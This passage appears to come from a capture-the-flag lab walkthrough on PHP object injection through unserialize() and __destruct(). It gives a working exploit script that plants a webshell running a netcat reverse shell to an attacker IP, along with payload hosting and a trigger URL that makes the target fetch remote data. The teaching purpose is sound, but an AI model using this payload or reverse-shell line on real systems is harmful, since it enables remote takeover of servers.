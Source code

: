 ### Step 9: Understanding PHP Object Injection

**What is PHP Object Injection?**
When `unserialize()` processes malicious data, it can create objects that execute code when they're destroyed (via `__destruct()` methods).

**Our attack plan:**
1. Create a malicious serialized object
2. Host it on our attack machine
3. Make the vulnerable server download and unserialize it
4. The destructor will write a PHP webshell to the server

### Step 10: Creating the Malicious Payload

Create `exploit.php`:

```php
<?php
class file
{
    public $file = 'shell.php'; 
    public $data = '<?php shell_exec("nc -e /bin/bash 10.8.181.85 1234"); ?>';
}

echo serialize(new file);
?>
```

Generate the payload:

```bash
php exploit.php > payload.txt
```

**What this creates:**
- A serialized object that, when unserialized, will create a `shell.php` file
- The file contains a reverse shell command using netcat

### Step 11: Hosting the Payload

Start a simple HTTP server to host our malicious payload:

```bash
python3 -m http.server 8000
```

### Step 12: Triggering the Vulnerability

Visit this URL to make the server download and execute our payload:

```
http://10.10.158.14/[SECRET_DIRECTORY]/?file=http://10.8.181.85:8000/payload.txt
```

**What happens:**
1. Server downloads our `payload.txt`
2. `unserialize()` creates our malicious `file` object
3. When the script ends, `__destruct()` runs
4. Our reverse shell code gets written to `shell.php`
